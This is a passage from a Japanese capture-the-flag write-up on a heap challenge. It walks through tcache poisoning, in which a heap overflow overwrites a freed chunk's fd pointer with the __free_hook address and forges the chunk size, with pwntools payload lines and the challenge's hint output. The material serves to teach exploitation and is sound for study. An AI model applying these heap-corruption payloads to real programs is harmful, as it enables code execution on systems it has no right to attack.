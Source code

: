 > ```
> -=-=-=-=-= TCACHE -=-=-=-=-=
> [    tcache (for 0x20)    ]
>         ||
>         \/
> [ 0x0000558bbf3eb350(rw-) ]
>         ||
>         \/
> [      END OF TCACHE      ]
> -=-=-=-=-=-=-=-=-=-=-=-=-=-=
> ```

ヒントにあった`fd`が`0x0000558bbf3eb350`（元々`B`があった場所）になっている。
この状態で`malloc`を行うと確保されたアドレスとして`0x0000558bbf3eb350`が返ってくるのだが、ヒープレイアウトを見てわかる通り、この領域は`A`のヒープオーバーフローによって書き換えられる。とりあえず目標の`0x0000558bbf3eb350`を`__free_hook`のアドレスに書き換えてみる。先ほどの教訓を生かして最初からpwntoolsを使うことにした。

```python
p.sendline(b'X' * 0x20 + p64(free_hook_addr))
```

これでヒントを見るとチャンクサイズが壊れているか大きすぎると言われる。

> ```
> It seems __free_hook is successfully linked to tcache!
> But the chunk size is broken or too big maybe...?
> ```

> ```
> -=-=-=-=-= TCACHE -=-=-=-=-=
> [    tcache (for 0x20)    ]
>         ||
>         \/
> [ 0x0000556bb204b350(rw-) ]
>         ||
>         \/
> [ 0x00007fe2b3efe8e8(rw-) ]
>         ||
>         \/
> [      END OF TCACHE      ]
> -=-=-=-=-=-=-=-=-=-=-=-=-=-=
> ```

`fd`の直前8byteがチャンクサイズなのだが、先ほどの入力では`0x5858585858585858`になっている。これを適当に`0x20`にするとヒントが変わる。

```python
p.sendlineafter("> ", '1')
p.sendline(b'X' * 0x18 + p64(0x20) + p64(free_hook_addr))
```

> ```
> It seems __free_hook is successfully linked to tcache!
> But you can't get __free_hook since you can only malloc/free B.
> What if you change the chunk size to a value other than 0x20...?
> ```

あまりに大きすぎると先ほどのように壊れていると言われるので、`0x30`にすると次の段階になった。
